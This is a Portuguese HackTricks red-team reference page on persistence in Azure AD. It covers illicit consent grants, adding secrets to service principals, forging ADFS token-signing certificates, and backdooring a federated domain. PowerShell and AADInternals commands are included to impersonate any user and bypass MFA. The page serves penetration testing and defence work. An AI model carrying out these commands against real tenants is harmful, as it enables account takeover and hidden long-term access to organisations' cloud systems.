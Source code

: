 # Az - Persistência

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

### Concessão de Consentimento Ilícito

Por padrão, qualquer usuário pode registrar um aplicativo no Azure AD. Assim, você pode registrar um aplicativo (apenas para o inquilino alvo) que precisa de permissões de alto impacto com consentimento de administrador (e aprová-lo se você for o administrador) - como enviar e-mails em nome de um usuário, gerenciamento de funções, etc. Isso nos permitirá **executar ataques de phishing** que seriam muito **frutíferos** em caso de sucesso.

Além disso, você também poderia aceitar esse aplicativo com seu usuário como uma forma de manter o acesso sobre ele.

### Aplicativos e Principais de Serviço

Com privilégios de Administrador de Aplicativos, GA ou um papel personalizado com permissões microsoft.directory/applications/credentials/update, podemos adicionar credenciais (secreto ou certificado) a um aplicativo existente.

É possível **mirar um aplicativo com altas permissões** ou **adicionar um novo aplicativo** com altas permissões.

Um papel interessante para adicionar ao aplicativo seria o **papel de administrador de autenticação privilegiada**, pois permite **reiniciar a senha** de Administradores Globais.

Essa técnica também permite **contornar a MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Para autenticação baseada em certificado

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federação - Certificado de Assinatura de Token

Com **privilégios de DA** no AD local, é possível criar e importar **novos certificados de assinatura de Token** e **certificados de descriptografia de Token** que têm uma validade muito longa. Isso nos permitirá **fazer login como qualquer usuário** cujo ImuutableID conhecemos.

**Execute** o comando abaixo como **DA no(s) servidor(es) ADFS** para criar novos certificados (senha padrão 'AADInternals'), adicioná-los ao ADFS, desativar a rotação automática e reiniciar o serviço:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Então, atualize as informações do certificado com o Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federação - Domínio Confiável

Com privilégios de GA em um locatário, é possível **adicionar um novo domínio** (deve ser verificado), configurar seu tipo de autenticação como Federado e configurar o domínio para **confiar em um certificado específico** (any.sts no comando abaixo) e emissor:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referências

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

